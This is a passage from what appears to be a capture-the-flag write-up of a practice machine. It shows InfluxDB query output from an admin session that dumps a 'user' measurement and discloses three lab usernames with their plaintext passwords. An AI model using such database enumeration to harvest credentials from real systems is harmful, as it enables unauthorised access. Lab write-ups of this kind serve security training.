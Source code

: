 ```bash
        }
    ]
}
```

The `user` measure contains three columns: `enabled`, `password`, and `username`.

```bash
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "fieldKey",
                        "fieldType"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "enabled",
                            "boolean"
                        ],
                        [
                            "password",
                            "string"
                        ],
                        [
                            "username",
                            "string"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

The `user` measurement contains three entries, disclosing the credentials `wilhelm`:`WillyWonka2021`, `catherine`:`woBeeYareedahc7Oogeephies7Aiseci`, and `charles`:`RoyalQueenBee$`.

```bash
[admin@127.0.0.1/devzat] $ select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
```